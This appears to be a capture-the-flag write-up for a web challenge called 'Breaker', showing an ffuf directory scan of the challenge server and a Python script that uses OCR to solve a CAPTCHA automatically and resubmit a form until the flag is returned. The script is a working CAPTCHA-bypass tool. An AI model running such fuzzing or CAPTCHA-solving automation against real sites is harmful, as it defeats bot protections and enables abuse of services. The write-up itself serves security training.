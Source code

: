 # Breaker

Accessing the root of the challenge at: **http://141.85.224.118:8086/** …returned a vague message:

***"I'm a simple PHP file, try to reveal me :("***

This hinted at the existence of another PHP file responsible for the actual functionality.

## Directory brute-forcing

We ran a basic fuzzing scan to enumerate files:

```bash
ffuf -u http://141.85.224.118:8086/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -e .php
```

This revealed the presence of:

```bash
/show.php [Status: 200]
/process.php [Status: 200]
```

## Visiting show.php
Going to: **http://141.85.224.118:8086/show.php** …showed a form with a CAPTCHA image and an input field.

```html
<img src="data:image/png;base64,..."/>
<form action="process.php" method="POST">
  <input name="txt_input">
</form>
```

First wee tried manually typing the recaptcha code but we got a response of *too late* so probably we had to make a script that solves it as fast as possible, or at leaster faster than manual.

## Exploit script
```python
import requests
from bs4 import BeautifulSoup
import base64
from PIL import Image, ImageOps, ImageFilter
import pytesseract
from io import BytesIO
import time

URL = "http://141.85.224.118:8086/show.php"
POST_URL = "http://141.85.224.118:8086/process.php"

session = requests.Session()


def preprocess_image(img_data):
    image = Image.open(BytesIO(img_data)).convert("L")
    image = image.resize((image.width * 2, image.height * 2))
    image = ImageOps.autocontrast(image)
    image = image.filter(ImageFilter.MedianFilter())
    image = image.point(lambda x: 0 if x < 140 else 255, '1')
    return image


while True:
    try:
        resp = session.get(URL)
        soup = BeautifulSoup(resp.text, "html.parser")

        img_tag = soup.find("img")
        base64_data = img_tag['src'].split(",")[1]
        captcha_image = base64.b64decode(base64_data)

        processed_img = preprocess_image(captcha_image)

        captcha_text = pytesseract.image_to_string(
            processed_img,
            config=
            '--psm 7 -c tessedit_char_whitelist=ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789'
        ).strip()

        print(f"[>] Trying: {captcha_text}")

        data = {"txt_input": captcha_text, "submit": "Send"}

        res = session.post(POST_URL, data=data)

        if "wrong" not in res.text:
            print("\nSuccess!")
            print(res.text)
            break
        else:
            print("Wrong, retrying...\n")
            time.sleep(1)

    except Exception as e:
        print(f"[!] Error: {e}")
        time.sleep(1)
```
        
After a few attempts (due to minor OCR inconsistencies), the script successfully solved the CAPTCHA and received the flag in the HTML response.
